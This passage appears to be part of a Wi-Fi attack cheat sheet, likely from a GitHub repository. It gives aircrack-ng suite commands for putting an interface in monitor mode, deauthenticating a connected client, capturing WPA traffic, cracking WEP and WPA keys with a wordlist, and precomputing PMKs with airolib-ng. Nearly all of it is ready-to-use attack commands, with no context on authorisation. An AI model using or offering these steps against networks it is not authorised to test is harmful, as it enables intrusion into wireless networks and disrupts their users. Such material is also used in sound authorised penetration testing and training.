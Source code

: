 Deauthentication Attack against connected client - speed up process:

```text
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> mon0
```

Crack Password:

```text
aircrack-ng -0 -z -n 64 capture
```

## Cracking WPA with Aircrack-ng

Monitor Mode:

```text
airmon-ng start wlan0 <AP Channel Number>
```

Airodump Capture of Traffic:

```text
airodump-ng -c <AP Channel> --bssid <AP MAC> -w <filename> mon0
```

Deauthentication Attack against connected client:

```text
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> mon0
```

Crack Password:

```text
aircrack-ng -0 -w <wordlist> <capture filename>
```

## Airolib-ng Store and Manage ESSID and Password Lists and Compute their PMK for cracking WPA/WPA2

Place ESSID in to a text file:

```text
echo wifu > essid.txt
```

Import file in to airolib database:

```text
airolib-ng testdb --import essid essid.txt
```

Check Stats for Database:

```text
airolib-ng testdb --stats
```

Import Password list in to testdb:

```text
airolib-ng testdb --import passwd /path/to/pw/list
```
